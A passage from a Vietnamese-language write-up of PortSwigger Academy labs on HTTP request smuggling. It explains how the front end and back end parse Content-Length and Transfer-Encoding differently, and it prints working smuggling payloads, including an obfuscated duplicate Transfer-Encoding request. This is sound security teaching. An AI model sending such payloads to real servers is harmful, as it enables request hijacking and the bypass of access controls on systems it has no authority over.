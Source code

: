 >Lúc này, front-end server coi body là 2 chunk size `5a` và size `0`. Chunk size `5a` sẽ chứa:
```
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

a
```

>Trong khi đó, back-end server sẽ coi body có 4 kí tự `5a\r\n` => Phần còn lại sẽ được gán vào đầu request sau.

>Chú ý: Content-Length tại payload attack:

```
Content-Length: 13\r\n
\r\n
a\r\n
0\r\n
\r\n
```

>phải lớn hơn 8 ( do `a\r\n 0\r\n \r\n` có 8 kí tự) vì nếu = 8 thì request sau vẫn được xử lí bình thường, còn > 8 thì nó sẽ lấy đi một số kí tự ở request sau => lúc này mới smuggling được.

>Tắt tự động update `Content-Length`:
>![image](https://hackmd.io/_uploads/rk0GldzOR.png)

>Send request lần thứ nhất:
![image](https://hackmd.io/_uploads/ryEQawG_C.png)

>Send lần 2 ta thấy request chứa **GPOST** đã được gửi và xử lí:
>![image](https://hackmd.io/_uploads/B1xFETDMOC.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/SkHS6DzdA.png)

### **3. Lab: HTTP request smuggling, obfuscating the TE header**
![image](https://hackmd.io/_uploads/B1Le7Dz_0.png)

>Khi **POST** với 2 trường `Content-Length` và `Transfer-Encoding` hợp lệ thì vẫn trả request bình thường mà không bị smuggling => Cả front-end và back-end server đều hỗ trợ `Transfer-Encoding`. Tuy nhiên, khi giá trị `Content-Length=4` sai với kích thước body mà server vẫn xử lí bình thường => `Content-Length` bị ignore nếu có cả 2 header trong cùng 1 request:
>![image](https://hackmd.io/_uploads/Hyc3X_fdC.png)

>Tuy nhiên khi thêm 1 header `Transfer-Encoding: x` thì lại trigger được smuggling sau khi gửi 2 lần. => Trong khi front-end chấp nhận `Transfer-Encoding: chunked` đầu tiên thì back-end chấp nhận `Transfer-Encoding: x` => Back-end phải sử dụng `Content-Length` do `Transfer-Encoding: x` không hợp lệ:
```
POST / HTTP/1.1
Host: 0a47004d04a13054809ad61c00ca0041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

1
b
0


```
>![image](https://hackmd.io/_uploads/BJEc4uGdR.png)
